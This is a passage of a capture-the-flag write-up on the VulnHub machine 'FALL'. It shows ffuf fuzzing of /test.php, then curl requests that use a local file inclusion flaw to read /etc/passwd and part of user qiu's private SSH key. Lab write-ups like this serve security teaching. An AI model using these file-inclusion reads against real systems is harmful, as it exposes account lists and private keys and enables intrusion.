 Nice! We found the `/test.php` test script!

**`/test.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/digitalworld.local:FALL/images/Pasted%20image%2020230817141138.png)

Ah... "Missing GET parameter!".

**Let's fuzz the GET parameter via `ffuf`:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:16:08(HKT)]
└> ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -u http://$RHOSTS/test.php?FUZZ=test -fw 3 
[...]
[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: file
```

**Found GET parameter `file`!**

Based on the GET parameter name, **it should be including arbitrary files on the system?**

**Let's try to include the `/etc/passwd` file:** 
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:17:19(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
[...]
qiu:x:1000:1000:qiu:/home/qiu:/bin/bash
[...]
```

Nice! And we found a system user!

- Found system user: `qiu`

## Initial Foothold

After Local File Inclusion (LFI) vulnerability has been found, we can try to gain initial foothold by:

1. RCE via LFI log poisoning
2. Reading configuration files

**First, we can try to read CMS Made Simple configuration file:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:20:41(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=config.php"
```

Empty?

Then, I tried to read Apache access log and other logs, but no dice.

**After poking around, we can actually include system user `qiu`'s private SSH key!**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:32:49(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/home/qiu/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
[...]
```
